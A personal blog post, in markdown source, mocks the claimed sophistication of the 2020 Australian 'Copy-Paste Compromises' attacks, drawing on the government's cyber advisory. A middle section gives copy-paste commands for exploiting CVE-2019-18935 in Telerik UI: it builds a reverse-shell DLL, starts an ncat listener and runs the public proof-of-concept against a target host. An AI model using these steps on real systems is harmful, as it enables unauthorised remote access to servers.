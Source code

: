 ```yaml
---
title: Copy-Paste Compromises
thumbnail: copypaste-compromises-thumb.png
category: infosec
---
```


Today I woke up to an organisation-wide email telling me that "Australia is currently being hit by a cyber-attack which is targeting all levels of government, political parties and private businesses". Hey that sounds fun, so I look at the news and see this headline: "[Cyber-attack Australia: sophisticated attacks from ‘state-based actor’, PM says](https://www.theguardian.com/australia-news/2020/jun/19/australia-cyber-attack-attacks-hack-state-based-actor-says-australian-prime-minister-scott-morrison)."

Ok so the government said it. Now as weird as it may seem, this is the first thing I thought when I read that: "Oh so it's probably bullshit then". Our government (but mostly a certain party) has a bad track record of calling things cyber attacks. Back in 2016 they blamed a DDoS attack on taking down the ABS Census website[^1], when in reality people where just, you know... **using it**. 

Apparently we invest absolutely nothing in our technology infrastructure, because these absolute mad lads went and blamed another failure on a DDoS attack earlier this year. This time it was people trying to register for Centrelink[^2], which is a little worse then people unable to fill out census forms as instead it affects people who have lost their jobs due to a certain global pandemic and need support.

And while not directly related to cyber security, let me remind you about the NBN. What a bloody farce. Any time the Coalition starts talking about techonology (or anything, really), my brain immediately starts shutting down in fear of getting an aneurysm.

But back to the topic on-hand, unfortunately, or fortunately for me because I seem to enjoy reading postmortems, this time it's actually a cyber attack. According to the previous article: "we know it is a sophisticated state-based cyber actor because of the scale and nature of the targeting and the tradecraft used." 

I won't comment about the "state-based cyber actor", because even though they won't say who it is, it's pretty obvious. So we will take that part out and instead look at how it was "sophisticated [...] because of the scale and nature of the targeting and the tradecraft used." Sophisticated huh? That's interesting. 

The Australian Cyber Security Centre’s (ACSC) published an advisory that details the tactics, techniques and procedures (TTPs) identified during the investigation of this attack. You can read the summary [here](https://www.cyber.gov.au/threats/advisory-2020-008-copy-paste-compromises-tactics-techniques-and-procedures-used-target-multiple-australian-networks). But I'm going to look more at the [PDF](https://www.cyber.gov.au/sites/default/files/2020-06/ACSC-Advisory-2020-008-Copy-Paste-Compromises.pdf) that goes into more detail.

Immediately we read that "the title ‘Copy-Paste Compromises’ is derived from the actor’s heavy use of proof of concept exploit code, web shells and other tools copied almost identically from open source."

Oh no, I'm already spotting a few red flags with this. Let's read that again with a focus on the important parts.

> Heavy use of proof of concept exploit code [...] copied almost identically from open source.

Now look, I didn't expect it to be Stuxnet 2: Electric Boogaloo and have a million zero days, but these are not the words we should be reading when we are looking for a "sophisticated" cyber attack. And it's a little concering that the Australian government (and some businesses, but I expect them to have crap security anyway) are not able to defend against well known, open source vulnerabilities enacted by what seems to be a bunch of script kiddies.

But to be fair, it looks like most of the initial access actually comes from spearphishing people, which is a hard thing to defend against. It's more about education and telling people to stop being stupid than it is about securing your infrastructure. However, I consider social engineering to be cheating because I have social anxiety and am unable to do it, so I'm going to ignore it.

Instead let's look at "exploitation of public facing infrastructure—primarily through the use of remote code execution vulnerability in unpatched versions of Telerik UI." They cite CVE-2019-18935: "Telerik UI - Remote Code Execution via Insecure Deserialization" as one of the most common exploits used. 

Telerik UI for ASP.NET AJAX is a widely used suite of UI components for web applications. It seems `RadAsyncUpload`, a file handler in Telerik UI for ASP.NET AJAX that enables uploading files asynchronously, insecurely deserializes JSON objects in a manner that results in arbitrary remote code execution on the software's underlying host.[^3]

The basic idea of the exploit is that you upload a "mixed mode assembly" DLL using Telerkit UI and specifying it as a "gaget", which is "a class within the executing scope of the application that, as a side effect of being instantiated and modified via setters or field assignment, has special properties that make it useful during deserialization." 

Yeah I don't really know what any of that is either. Anyway, then some funky stuff happens when it attemps to deserialise it and bing bong, you got yourself remote code execution. This is a pretty common way of RCE and probably should have been found eariler, so RadAsyncUpload seems more like **Bad**AsyncUpload to me! Hah!

...

Ok moving on.

In case you are not aware of how easy it is to use exploits like these and because I want to pad this post out, let's take a look at the steps you need to do the exploit:

1. Download the repo: 
```
git clone https://github.com/noperator/CVE-2019-18935.git && cd CVE-2019-18935
```

2. Install the Python environment.
```
python3 -m venv env
source env/bin/activate
pip3 install -r requirements.txt
```

3. Build the reverse shell that they provide for you (need Visual Studio installed).
```
sed -i .bu 's/<HOST>/<HOST>/; s/<PORT>/<PORT>/' rev_shell.c
build_dll.bat rev_shell.c
```

4.  Setup Netcat for callback.
```
sudo ncat -lvp <PORT>
```

4. Run the thing.
```
python3 CVE-2019-18935.py -u <HOST>/Telerik.Web.UI.WebResource.axd?type=rau -v <VERSION> -f 'C:\Windows\Temp' -p sleep_2019121205271355_x86.dll
```

You can practically copy and paste all of this as there were only three things you needed to change:

* The `<HOST>` param: Obviously you need to specify what host your attacking.
* The `<PORT>` param: The port you'll be listening on for the reverse shell.
* The `<VERSION>` param: This is the version of Telerik UI that is being used as newer version have been patched. You can normally find what version it is by checking the HTML, otherwise you can brute-force it.

Most of the time, you'd make your own reverse shell and tailor it for your victim (if you're any good, I never do it because I'm lazy and stupid). But the report says that "most common payloads used by the actor were copies of public proof of concept exploit code for a sleep test and reverse shell binary" which are exactly the ones we just looked at (step 3). 

There's way more in the other sections like Privilege Escalation, Credential Access, etc. But I just wanted a quick look at how "sophisticated" the attack was. And it turns out to be pretty average if I'm to be honest.

This is why I don't do infosec content anymore, it's pretty boring just running the exploits and instead all the fun comes from making/finding them. But I can't do that stuff cus I'm dumb.

Moral of the story: patch your systems and stay in school.

----

[^1]: https://theconversation.com/did-the-census-really-suffer-a-denial-of-service-attack-63755

[^2]: https://www.theguardian.com/australia-news/2020/mar/23/incompetence-attack-mygov-website-did-not-crash-because-of-ddos-cyber-assault-as-stuart-robert-claimed

[^3]: https://know.bishopfox.com/research/cve-2019-18935-remote-code-execution-in-telerik-ui
